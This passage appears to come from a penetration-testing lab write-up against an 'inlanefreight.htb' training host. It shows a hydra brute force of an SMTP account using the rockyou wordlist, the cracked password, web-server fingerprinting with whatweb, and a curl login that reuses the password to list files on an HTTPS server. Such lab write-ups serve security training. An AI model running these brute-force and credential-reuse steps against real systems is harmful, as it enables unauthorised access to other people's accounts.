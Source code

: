 #### SMTP Exploitation

```
┌──(nabla㉿kali)-[~]
└─$ hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt -f 10.129.183.247 smtp

[SNIP]

[25][smtp] host: 10.129.183.247   login: fiona@inlanefreight.htb   password: 987654321
```

```yaml
credentials:
    username: fiona
    password: '987654321'
    host: inlanefreight.htb
    port: 25,443,3306 (SMTP,HTTPS,MySQL)
```

#### HTTP/HTTPS Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://10.129.183.247

http://10.129.183.247 [302 Found] Apache[2.4.53], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29], IP[10.129.183.247], OpenSSL[1.1.1n], PHP[7.4.29], RedirectLocation[http://10.129.183.247/dashboard/], X-Powered-By[PHP/7.4.29]

http://10.129.183.247/dashboard/ [200 OK] Apache[2.4.53], Country[RESERVED][ZZ], Email[fastly-logo@2x.png], HTML5, HTTPServer[Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29], IP[10.129.183.247], JQuery[1.10.2], Modernizr, OpenSSL[1.1.1n], PHP[7.4.29], Script[text/javascript], Title[Welcome to XAMPP]
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb https://10.129.183.247

https://10.129.183.247 [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Core FTP HTTPS Server], IP[10.129.183.247], WWW-Authenticate[Restricted Area][Basic]
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s -k -X GET -H "Host: 10.129.183.247" --basic -u fiona:987654321 https://10.129.183.247/ | html2text

[Upload] [File]
            22 Apr 2022    10:07        <dir> .
            22 Apr 2022    10:07        <dir> ..
            21 Apr 2022    14:23        55 docs.txt
            22 Apr 2022    10:10        255 WebServersInfo.txt
```
